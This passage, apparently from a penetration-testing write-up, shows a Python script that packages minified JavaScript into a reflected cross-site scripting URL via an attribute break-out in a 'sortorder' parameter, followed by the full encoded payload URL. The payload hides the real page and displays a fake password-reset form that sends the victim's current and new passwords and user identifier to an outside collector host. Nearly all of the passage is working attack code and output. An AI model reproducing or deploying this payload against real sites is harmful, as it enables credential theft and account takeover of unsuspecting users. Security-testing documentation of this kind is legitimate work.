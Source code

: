 ```
with open(minified_filename,'rt') as minified_js_file:
    minified_js = minified_js_file.read()

# ensure there is a space between `function` and `()`
js = minified_js.replace('function()','function ()')

# ensure single quotes are used, 
# as double-quotes will be interpreted 
# by browser as terminating the inline handler,
# therefore breaking the payload
js = js.replace('"','\'')

# URL-encode the minified JS
urlencoded_min_js = urllib.parse.quote(js)

# set up encoded URL payload
prefix = 'https://examplehost/path/0?sortorder=c%22%20onmouseover=%22'
suffix = '%22%3e'

url_payload = f'{prefix}{urlencoded_min_js}{suffix}'

with open('./final_xss_payload_userid.txt','wt') as payload_file:
    payload_file.write(url_payload)
    print(url_payload)

```

Having this script available allows to fine-tune the original JavaScript payload, "compile" it into a usable payload, rinse and repeat until we find a crafted URL exploit that accomplishes what we want.

This is the final URL:

```
https://examplehost/path/0?sortorder=c%22%20onmouseover=%22%28function%20%28%29%7Bvar%20e%3Ddocument%2Ct%3D%27block%27%2Cn%3D%27input%27%2Cr%3D%27label%27%2Cl%3D%27name%27%2Ca%3D%27password%27%2Ci%3D%27submit%27%2Cd%3D%27type%27%2Cs%3D%27/Content/images/%27%2Cp%3D%270%20auto%27%2Cm%3De.body%2Cc%3De.createElement%28%27img%27%29%2Co%3De.createElement%28%27p%27%29%2Cy%3De.createElement%28%27form%27%29%2Cu%3De.createElement%28r%29%2Cb%3De.createElement%28n%29%2Ch%3D%27Current%20%27%2Ba%2CE%3De.createElement%28r%29%2Cg%3De.createElement%28n%29%2CC%3De.createElement%28r%29%2Cf%3De.createElement%28n%29%2CA%3De.createElement%28n%29%2CH%3De.querySelectorAll%28%27%5Bid%3Dclient_info%5D%27%29%5B1%5D%2CL%3D%27h6%27%2CM%3DH.innerHTML.indexOf%28L%29%2CT%3DH.innerHTML.lastIndexOf%28L%29%2Cv%3DH.innerHTML.slice%28M%2B3%2CT-2%29%2Cw%3De.createElement%28n%29%2Cx%3De.getElementById%28%27page_wrapper%27%29%3Bx.style.display%3D%27none%27%3Bc.src%3Ds%2B%27logo-transparent.png%27%3Bc.style.margin%3D%279em%20auto%201em%27%3Bc.style.display%3Dt%3Bx.after%28c%29%3Bo.innerHTML%3D%27Password%20reset%20required%27%3Bo.style.textAlign%3D%27center%27%3Bo.style.color%3D%27red%27%3Bc.after%28o%29%3By.method%3D%27post%27%3By.action%3D%27https%3A//12345.oastify.com%27%3By.style.width%3D%27200px%27%3By.style.margin%3Dp%3Bb.setAttribute%28l%2C%27current%27%2Ba%29%3Bb.setAttribute%28d%2Ca%29%3Bu.innerHTML%3Dh%3Bu.appendChild%28b%29%3By.appendChild%28u%29%3Bg.setAttribute%28d%2Ca%29%3Bg.style.display%3Dt%3Bf.setAttribute%28d%2Ca%29%3Bf.style.display%3Dt%3BE.innerHTML%3D%27New%20%27%2Ba%3BC.innerHTML%3D%27Confirm%20%27%2Ba%3BE.appendChild%28g%29%3By.appendChild%28E%29%3BC.appendChild%28f%29%3By.appendChild%28C%29%3BA.setAttribute%28d%2C%27hidden%27%29%3BA.setAttribute%28l%2C%27u%27%29%3BA.value%3Dv%3By.appendChild%28A%29%3Bw.setAttribute%28d%2Ci%29%3Bw.setAttribute%28%27text%27%2C%27Submit%27%29%3Bw.style.display%3Dt%3Bw.style.margin%3Dp%3By.appendChild%28w%29%3Bo.after%28y%29%7D%29%28%29%3B%22%3e
```
